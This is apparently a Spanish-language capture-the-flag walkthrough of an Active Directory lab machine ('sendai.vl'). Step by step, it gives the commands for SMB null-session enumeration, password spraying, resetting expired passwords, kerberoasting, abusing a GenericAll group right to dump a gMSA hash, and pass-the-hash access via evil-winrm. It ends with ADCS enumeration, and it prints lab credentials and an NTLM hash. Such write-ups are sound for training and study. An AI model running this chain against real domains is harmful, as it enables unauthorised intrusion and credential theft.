Se realiza una  enumeración inicial de puertos sobre la máquina objetivo, con el fin de identificar qué puertos se encuentran abiertos.

``sudo nmap 10.129.234.66 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``


A partir de los puertos detectados, se realiza un análisis más detallado con el objetivo de identificar los servicios asociados, sus versiones y recopilar información adicional mediante scripts de enumeración, lo que permite evaluar posibles vectores de ataque.

``sudo nmap 10.129.234.66 -sCV -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,5985,9389,49664,49667,49765,49766,56311,56314,56325,58495 -oN target``




La combinación de servicios expuestos (Kerberos, LDAP, SMB, DNS) indica claramente que el objetivo actúa como Domain Controller dentro de un entorno Active Directory.

A su vez, puede observarse el nombre de la máquina y su dominio: ``dc.sendai.vl``

Para comprobar y extraer más información:

``netexec smb 10.129.234.66``



Se añade esta información al ``/etc/hosts``.


Se comienza a enumerar a través de SMB:

``smbclient -N -L \\\\10.129.234.66``



Se observan directorios compartidos que no son los predeterminados, tales como: ``config``, ``sendai``, ``Users``.

Si se analizan los permisos accesibles mediante una null session:

``smbmap -H 10.129.234.66 -u 'null'``



Se tiene READ en: ``IPC$``, ``sendai``, ``Users``. La existencia de permisos de lectura mediante ``null session`` sobre recursos SMB no predeterminados puede provocar exposición de información sensible, permitiendo enumeración interna sin autenticación.

Descripción del directorio compartido ``sendai``: ``Company share``. Puede ser un buen directorio por el que comenzar.

``smbclient -N \\\\10.129.234.66\\sendai``



Para poder inspeccionar todo con más detenimiento, se decide descargar todo en máquina atacante:
```
recurse ON
prompt OFF
mget *
```



Una vez se ha descargado el contenido en la máquina atacante, se puede analizar su estructura de directorios: ``tree .``



Llama la atención ``incident.txt``.



Resumen: se ha realizado un pentest a la empresa y se ha descubierto que hay numerosos usuarios cuya contraseña es débil. Como medida desde el equipo de IT para resolver esto, todos aquellos usuarios que tenían una contraseña débil se les pedirá que cambien su contraseña la próxima vez que se conecten.

En el archivo ``guidelines.txt`` del directorio ``security`` se encuentra una guía de buenas prácticas genéricas a nivel de seguridad de empresa. No parece poder extraerse información que pueda ser de utilidad para la resolución de este CTF.

También se ha extraído de lo archivos compartidos los binarios ``Bginfo64.exe`` y ``PsExec64.exe``.

Otra cosa que llama la atención, dentro del directorio ``transfer``, es un directorio para lo que parecen nombres de usuarios, tales como: ``anthony.smith``, ``clifford.davey``, etc. Se va a generar un diccionario de usuarios y se van a intentar validar a nivel de kerberos con la herramienta ``kerbrute``.



No creo que ``temp`` sea un usuario, pero lo mantenemos por si acaso.



Se valida la existencia a nivel de dominio de todos los usuarios, excepto ``temp``, por lo que el diccionario de usuarios queda así:



Dado el contexto identificado y la información obtenida a través de `incident.txt`, es razonable asumir que todavía puedan existir usuarios con contraseñas débiles pendientes de ser modificadas. El conflicto actual es que no se conoce la política de contraseñas, lo cual es importante para evitar denegaciones de servicio vía bloqueo de usuarios (o las alertas defensivas en un contexto realista) al realizar fuerza bruta.


Tímidamente, se utiliza el propio nombre de los usuarios como su propia contraseña:

``netexec smb 10.129.234.66 -u users.txt -p users.txt --no-bruteforce``



Sin éxito.

Se prueba una cadena vacía como contraseña (es decir, que NO tienen contraseña):

``netexec smb 10.129.234.66 -u users.txt -p '' ``



Los usuarios ``elliot.yates`` y ``thomas.powell`` deben que modificar su contraseña la próxima vez que se logueen (``STATUS_PASSWORD_MUST_CHANGE``). Sin embargo, las credenciales actuales siguen siendo válidas para determinadas operaciones, como el cambio de contraseña a través de SMB.

Esto plantea un escenario interesante: si un atacante puede autenticarse utilizando las credenciales actuales, podría potencialmente establecer una nueva contraseña arbitraria y tomar control completo de la cuenta.

Existe un módulo de netexec que permite modificar la contraseña del propio usuario con el que realiza la autenticación:

``netexec smb 10.129.234.66 -u thomas.powell -p '' -M change-password -o NEWPASS=Password01``


``netexec smb 10.129.234.66 -u elliot.yates -p '' -M change-password -o NEWPASS=Password01``


Una vez se ha modificado la contraseña de ambos usuarios, se valida con netexec si alguno puede conectarse por winRM o RDP, pero ninguno de los dos puede para ninguno de los dos protocolos.

A su vez, dado que se tienen credenciales válidas a nivel de dominio, se puede listar la política de contraseñas:

``netexec smb 10.129.234.66 -u thomas.powell -p 'Password01' --pass-pol``  



``Account Lockout Threshold``: None. 

Esto implica que pueden realizarse ataques de fuerza bruta o password spraying sin riesgo de bloqueo automático de cuentas, aunque en un entorno realista este comportamiento probablemente generaría alertas defensivas.

También se pueden extraer todos los usuarios del dominio:

``netexec smb 10.129.234.66 -u thomas.powell -p 'Password01' --rid-brute | grep 'SidTypeUser' | cut -d '\' -f2 | awk '{print $1}' > ridusers.txt``



Se vuelve a utilizar kerbrute para validar todos estos usuarios:



Se repite netexec con ``-p ''`` para todos los usuarios, pero no hay más usuarios que deban cambiar su contraseña.

Se prueba asreproasting, por si hubiese algún usuario que tiene seteada la opción NoPreauthUser, pero no se consigue extraer ningún hash.

Se prueba kerberoasting:

``impacket-GetUserSPNs -request -dc-ip 10.129.234.66 sendai.vl/thomas.powell:'Password01' -dc-host 'dc.sendai.vl' -outputfile kerberoasthash``





Aunque se consigue extraer un TGS válido asociado a una cuenta de servicio, el hash no puede ser crackeado utilizando hashcat y el diccionario rockyou (``hashcat -m 13100 kerberoasthash /usr/share/wordlists/rockyou.txt --force``)


A su vez, gracias a tener credenciales válidas a nivel de dominio, se puede hacer uso de ``bloodhound-python`` para enumerar el dominio:

``bloodhound-python -ns 10.129.234.66 -dc 'dc.sendai.vl' -u 'thomas.powell' -p 'Password01' -d sendai.vl -c All``


- Se levanta neo4j: ``sudo neo4j start``

- Se levanta bloodhound: ``sudo bloodhound &>/dev/null & disown``

- Introducimos nuestras credenciales de BloodHound

- Una vez se tiene acceso al dashboard de BloodHound, subimos la data recolectada:



El objetivo de utilizar BloodHound es identificar relaciones de privilegios, delegaciones y vectores de ataque que permitan escalar privilegios dentro del dominio.

- Se marca como owned los dos usuarios que tenemos comprometidos:


Si se analizan los nodos de los usuarios que tenemos comprometidos, se observa:





El grupo ``support``, al que pertenecen ambos usuarios comprometidos (y, por tanto, heredan los privilegios), posee el privilegio ``GenericAll`` sobre:

- el grupo ``ADMSVC``
- la OU ``ADMSVC``.

El permiso ``GenericAll`` equivale a control total sobre el objetivo. Por ello, una posible vía de explotación sería añadir al grupo ``ADMSVC`` a uno de los dos usuarios que actualmente se poseen. 


Si se analiza el nodo del grupo ``ADMSVC``:



El usuario ``MGTSVC$`` corresponde a una ``Group Managed Service Account`` (gMSA). Las gMSA utilizan contraseñas complejas gestionadas y rotadas automáticamente por Active Directory, y únicamente determinadas entidades autorizadas pueden recuperar dichos secretos.

Dado que el grupo ``ADMSVC`` posee permisos para leer la contraseña gestionada de la GMSA, al añadir un usuario controlado a dicho grupo se obtiene capacidad para extraer su hash NTLM.

Y si se analiza el nodo del usuario ``MGTSVC$``:


Dado que este usuario forma parte del grupo ``Remote Management Users``, dicho usuario podrá loguearse en la máquina víctima a través del protocolo winRM.

Por todo lo anterior, se procede:

- Añadir al usuario ``Thomas.Powell`` al grupo ``ADMSVC``:

``bloodyAD -u 'thomas.powell' -p 'Password01' -d sendai.vl --host 10.129.234.66 add groupMember 'ADMSVC' thomas.powell``



- Dumpear el hash NTLM del usuario ``MGTSVC$``.

https://github.com/micahvandeusen/gMSADumper

``gMSADumper.py -u 'thomas.powell' -p 'Password01' -d 'sendai.vl'``


- Se validan credenciales:

``netexec smb 10.129.234.66 -u 'mgtsvc$' -H '79ce2a2c1488fba8ef0aeaeaed141050'``



- Se confirma que el usuario ``mgtsvc$`` puede conectarse por winRM

``netexec winrm 10.129.234.66 -u 'mgtsvc$' -H '79ce2a2c1488fba8ef0aeaeaed141050'``



- Se utilizan las credenciales obtenidas para realizar [[Pass The Hash]] y acceder a la máquina víctima:

``evil-winrm -i 10.129.234.66 -u 'mgtsvc$' -H '79ce2a2c1488fba8ef0aeaeaed141050'``


Se puede recoger la flag de usuario en ``C:\``:



Y se puede marcar como usuario owned en BloodHound:



# PRIVESC

Realizando una enumeración interna de la máquina víctima se encuentra:

``services``


``clifford.davey``:``RFmoB2WplgE_3p``

Se validan credenciales con netexec:

``netexec smb 10.129.234.66 -u 'clifford.davey' -p 'RFmoB2WplgE_3p'``


Si se analiza la información del usuario ``clifford.davey``:

``net user /domain clifford.davey``



Forma parte del grupo ``ca-operators``, lo cual puede ser muy interesante.

Con certipy se va a comprobar si existe algún escenario vulnerable.

``certipy-ad find -vulnerable -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -stdout``

